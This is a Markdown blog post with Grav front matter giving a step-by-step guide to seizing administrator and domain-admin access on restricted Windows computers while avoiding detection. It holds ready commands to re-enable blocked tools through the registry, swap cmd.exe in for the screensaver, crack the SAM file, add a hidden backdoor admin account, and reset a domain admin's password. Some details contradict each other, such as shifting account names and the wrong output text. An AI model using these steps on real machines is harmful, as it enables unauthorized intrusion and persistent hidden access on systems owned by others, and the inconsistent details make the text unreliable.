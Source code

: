 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Diffrent ways to Access Command Prompt
slug: diffrent-ways-to-access-command-prompt
# menu: Diffrent ways to Access Command Prompt
date: 22-11-2011
published: true
publish_date: 22-11-2011
# unpublish_date: 22-11-2011
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - cmd
        - hack
        - hacking
        - internet
        - windows
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [cmd,hack,hacking,internet,windows]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


This article is about hacking networks. Since any longer than five minutes, you risk getting caught, this is \*hopefully\* going to teach you how to get root in five minutes or less. So, lets get it started. To those of you that think by getting root, you own everything, sorry to disapoint you. But, by getting root, you only own the comp your on. There is however, a way to get domain root, which I’ll discuss later.

So first of all , try and check your access to DOS. For doing so :  
“start>all programs>accessories>cmd” or “start>run> type in ‘cmd'”

If it doesnt works, go and make a file named “whatever.txt” Right click, and open it in notepad. Type “cmd” in it and save, if you are able to see some black screen fr a second, yes, you can get it. Now change the content in file, i.e

replace “cmd” with following:

@echo off  
echo hello  
pause

If you see “HACKED” on the screen, then yes you are more closer. Finally now change the content to following :  
REGEDIT4   
[HKEY\_CURRENT\_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesWinOldApp]   
“Disabled”=dword:0   
[HKEY\_CURRENT\_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem]  
“DisableRegistryTools”=dword:0

This changes the registry value that blocks dos. So, type “cmd” in the .bat and see if it works. If that also didn’t work, theres still other ways.

Now, type in your commands and click “file>save as>” for the type, put “text document, and save as “anything.bat”.   
If that wasn’t the reason, I hope you have access to the C drive.  
If you do, go here “C:Windowssystem32” and create a new folder.  
Now, find “cmd.exe” and “scrnsave.scr” and copy them to the new folder.  
Goto the folder and rename “scrnsave.scr” to “scrnsaveold.scr”, and “cmd.exe” to “scrnsave.scr” And replace it with the real one in system32. Now the next time your screen saver appears, it will be full access dos. So, if you can, on the desktop, right click and select properties. Change the time to one minute. On windows xp, you may have to make sure the screensaver is “scrnsave”.

Even if it doesnt works, you can go for control panel. yes this one is not gauranteed, but ya at least it may be try at least.

Just create a new folder and rename it to following(obviously only the {} part)

Control panel: {305CA226-D286-468e-B848-2B2E8E697B74}  
Printers: {2227A280-3AEA-1069-A2DE-08002B30309D}   
Taskbar and startmenu: {0DF44EAA-FF21-4412-828E-260A8728E7F1}  
Microsoft FTP folder {63da6ec0-2e98-11cf-8d82-444553540000}  
Temporary Internet files {7BD29E00-76C1-11CF-9DD0-00A0C9034933}   
ActiveX Cache folder {88C6C381-2E85-11D0-94DE-444553540000  
Subscriptions folder {F5175861-2688-11d0-9C5E-00AA00A45957}  
Dial-up networking: {992CFFA0-F557-101A-88EC-00DD010CCC48}   
Scheduled tasks: {D6277990-4C6A-11CF-8D87-00AA0060F5BF}   
Folder options: {6DFD7C5C-2451-11d3-A299-00C04F8EF6AF}   
Dial-Up Networking: {992CFFA0-F557-101A-88EC-00DD010CCC48}   
Scheduled tasks: {D6277990-4C6A-11CF-8D87-00AA0060F5BF}   
History {FF393560-C2A7-11CF-BFF4-444553540000}

Another way to get dos, is to create a prog. Uber0n has created such a program. You can find it at http://www.freewebs.com/uber0n/ You’ll need a c++ compiler.

If so far, nothing has worked. You need to crack the sam file. Pretty sure Cain & Abel has this option.

If you did get dos, it’s time to create yourself an admin acct. Type this.

@echo off  
net user hackplanet hackplanet /add  
net localgroup administrators hackplanet /add  
reg add “HKLMSOFTWAREMicrosoftWindows NTCurrentVersionWinlogonSpecialAccountsUserList” /v hackplanet/t REG\_DWORD /d 0

First Line just hides the file address and stuff.  
Second Line Creates the user “hackplanet” with the password of “hackplanet”.  
Third Line adds “upgoingstar” to the administrators group.  
Fourth Line makes the acct “upgoingstar” a hidden acct.  
If you see “The command completed successfully.” or something similiar, congragulations. You now have root. If it didn’t work, it means you have limited access dos, use the screensaver thing.

If you want domain root, you can either find the domain admin’s username and type

@echo off  
net user [username] [newpassword]

That will change the pass.  
Or, if you can get on his/her comp, type this in dos.

net group “Domain Admins” [username] /add

This will add an acct to the domain admins.

Moreover, if you don’t have access to the C drive, or any other particular drive, there are a few ways to view it’s contents. You just need to be able to install programs. Google has a program called “Google Desktop” which indexes the computer and makes it searchable.  
Or, you can download a web browser such as Opera. In the url bar type this “file://” you should now see a list of drives.

Seems funny? Weel, actually it is. 🙂

Source- http://hackplanet.in



Go to our new site- shankee.com
